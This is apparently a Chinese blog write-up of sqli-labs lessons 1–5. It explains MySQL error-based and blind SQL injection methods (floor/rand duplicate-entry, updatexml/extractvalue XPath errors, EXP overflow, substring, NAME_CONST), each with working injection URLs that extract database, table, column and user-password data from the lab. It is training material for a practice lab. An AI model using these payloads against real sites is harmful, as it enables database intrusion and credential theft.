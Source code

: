 ```yaml
---
layout: post
title: 'Sqli-labs通关总结'
subtitle: 'Sqli-labs-master(1-5)'
date: 2018-12-25
categories: 技术
cover: '/assets/img/2.jpg'
tags: web安全 SQL注入 盲注 sqli-labs
---
```


# Sql盲注的几种方式

## 1. Duplicate entry报错:


主要的函数如下

> rand():用于产生一个0～1的随机数
> 
> floor():向下取整
> 
> concat():将符合条件的同一列中的不同行数据进行连接。
> 
> floor(rand()):值是固定的"0"
>
> floor(rand()*2):值是不固定的，"0"或者"1"。


```
mysql > select floor(rand(0)*2) from schemata;
```
##### 结果显示floor(rand()*2)毫无规律可言，而floor(rand(0)*2)是有规律的"011011…………"

mysql在遇到select count(*) from tables group by x;这语句的时候会建立一个虚拟表

- 1.查询前默认会建立空虚拟表。
- 2.取第一条记录，执行floor(rand(0)*2)，发现结果为0(第一次计算),查询虚拟表，发现0的键值不存在，则floor(rand(0)*2)会被再计算一次，结果为1(第二次计算)，插入虚表，这时第一条记录
- 3.查询第二条记录，再次计算floor(rand(0)*2)，发现结果为1(第三次计算)，查询虚表，发现1的键值存在，所以floor(rand(0)*2)不会被计算第二次，直接count(*)加1，第二条记录查询完毕查询完毕
- 4.查询第三条记录，再次计算floor(rand(0)*2)，发现结果为0(第4次计算)，查询虚表，发现键值没有0，则数据库尝试插入一条新的数据，在插入数据时floor(rand(0)*2)被再次计算，作为虚表的主键，其值为1(第5次计算)，然而1这个主键已经存在于虚拟表中，而新计算的值也为1(主键键值必须唯一)，所以插入的时候就直接报错了
- 5.整个查询过程floor(rand(0)*2)被计算了5次，查询原数据表3次，所以这就是为什么数据表中需要3条数据，使用该语句才会报错的原因。


#### sqli-labs-less5 测试:

- 1.获取库名

```
127.0.0.1/sqli-labs/less-5/?id=1' Union select 1,count(*),concat(database(),0x26,floor(rand(0)*2))x 
from information_schema.columns group by x --+
```
![image](2DB85252F5F54CC9A22CA1A6D2CB905C)

- 2.获取表名
```
127.0.0.1/sqli-labs/less-5/?id=1' Union select 1,count(*),concat((select table_name from information_schema.tables 
where table_schema='security' limit 3,1),0x26,floor(rand(0)*2))x from information_schema.columns group by x --+
```
![image](AF0F93CAE52C4E0E9D905C94482C1373)

- 3.获取字段
```
127.0.0.1/sqli-labs/less-5/?id=1' Union select 1,count(*),concat((select column_name from information_schema.columns where table_schema='security' 
and table_name='users' limit 1,1),0x26,floor(rand(0)*2))x 
from information_schema.columns group by x --+
```
![image](167781554640477382F3F7737FF773B2)

- 4.获取值
```
127.0.0.1/sqli-labs-master/Less-5/?id=1' Union select 1,count(*),concat((select password from users limit 1,1),(select username from users limit 1,1),0x26,floor(rand(0)*2))x 
from information_schema.columns group by x--+
```
![image](10455C264D2E488AA47C7F1D0BE634FC)

## 2.Xpath报错注入：

主要的两个函数：
> MySQL 5.1.5
- 1.extractvalue():从目标XML中返回包含所查询值的字符串。


```
EXTRACTVALUE (XML_document, XPath_string);
```


第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc 

第二个参数：XPath_string (Xpath格式的字符串)
##### 原理：通过concat将查询到的信息拼接成字符串,由于extractvalue函数的第二个参数需要Xpath格式字符串。现在很显然不是,所以报错。

- 2.updatexml():用法与extractvalue类似。

构造语句
```
http://127.0.0.1/sqli-labs-master/Less-5/?id=1' and updatexml(1,concat(0x7e,database(),0x7e),1) --+
```
![image](660CECE78CC24295837BA8334BA04842)

- 1.获取库名
```
127.0.0.1/sqli-labs-master/Less-5/?id=1' and updatexml(1,concat(0x7e,(select schema_name
from information_schema.schemata limit 1,1),0x7e),1) --+
```
![image](30662BEC71524F66A27450545DCAB5C6)

- 2.获取表名
```
127.0.0.1/sqli-labs-master/Less-5/?id=1' and updatexml(1,concat(0x7e,(select group_concat(table_name) 
from information_schema.tables where table_schema='security'),0x7e),1) --+
```
![image](1F35855DB3B0429AB2E08B0B3BDA33B8)


- 3.获取字段
```
127.0.0.1/sqli-labs-master/Less-5/?id=1' and updatexml(1,concat(0x7e,(select group_concat(column_name) 
from information_schema.columns where table_name='users'),0x7e),1) --+
```

![image](425389272CB64DE39EA25257A322534A)

- 4.获取值
```
127.0.0.1/sqli-labs-master/Less-5/?id=1' and updatexml(1,concat(0x7e,(select group_concat(id,username,password) from users),0x7e),1) --+
```
![image](13A62E1B6E734539BE03D889F7F2F4D3)

## 3.整型溢出报错:
> MySQL>5.5.5

主要函数
> exp(x):计算e的次方

构造语句
```
and (EXP(~(select * from(select version())a)))
```
原理如下
> Exp()超过710会产生溢出。
将0按位取反就会返回“18446744073709551615”，而函数执行成功会返回0，所以将成功执行的函数取反就会得到最大的无符号BIGINT值，从而造成报错。

## 4.Sub截断注入
截取字符串的函数
> substr(string,start,length)

> mid(string,start,length)

> left(string,length)


ord():转换ASCII值



## 5.数据重复报错:
> MySQL低版本 

构造语句
```
select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x
```